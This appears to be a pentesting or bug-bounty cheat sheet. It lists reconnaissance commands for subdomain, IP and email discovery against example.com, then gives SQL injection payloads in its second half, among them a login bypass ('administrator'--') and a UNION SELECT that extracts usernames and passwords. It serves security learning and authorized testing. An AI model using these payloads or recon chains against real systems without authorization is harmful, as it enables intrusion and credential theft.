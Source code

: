 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: `https://portswigger.net/web-security/sql-injection/cheat-sheet`

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

## [](#header-4) Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

## [](#header-4) Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

#SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)
